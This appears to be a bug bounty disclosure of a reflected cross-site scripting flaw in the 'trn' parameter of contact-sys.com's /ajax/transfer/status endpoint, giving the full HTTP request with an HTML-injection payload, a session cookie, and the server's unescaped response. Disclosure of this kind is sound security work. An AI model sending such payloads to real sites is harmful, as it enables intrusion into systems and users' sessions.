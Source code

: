 ## 0x01 XSS /ajax/transfer/status trn param

Bounty	$100  
Severity	Medium (4 ~ 6.9)

## 0x02  


```html
POST /ajax/transfer/status HTTP/1.1
Host: contact-sys.com
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Cookie: PHPSESSID=l9ofcg7b8ehhshvsi6okbaa2d0; _ym_uid=1472633286349849091; _ym_isad=2; _ga=GA1.2.258776393.1472633287
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 54

trndate=01.08.2016&trn=%3Cs%3E%3Ch1%3E%3Cmarquee%3EXSS
```


response:


`{"result":1,"out":"\u0412\u0430\u0448 \u043f\u0435\u0440\u0435\u0432\u043e\u0434 <strong><s><h1><marquee>XSS<\/strong> <span class=\"red\">\u043d\u0435 \u043d\u0430\u0439\u0434\u0435\u043d<\/span>,<br\/>\u0442\u0430\u043a \u043a\u0430\u043a \u043d\u0435\u043f\u0440\u0430\u0432\u0438\u043b\u044c\u043d\u043e \u0432\u0432\u0435\u0434\u0435\u043d\u044b \u0434\u0430\u043d\u043d\u044b\u0435 \u0438\u043b\u0438 \u0435\u0433\u043e \u043d\u0435\u0442 \u0432 \u0441\u0438\u0441\u0442\u0435\u043c\u0435 CONTACT.","erased":0,"alotof":0}`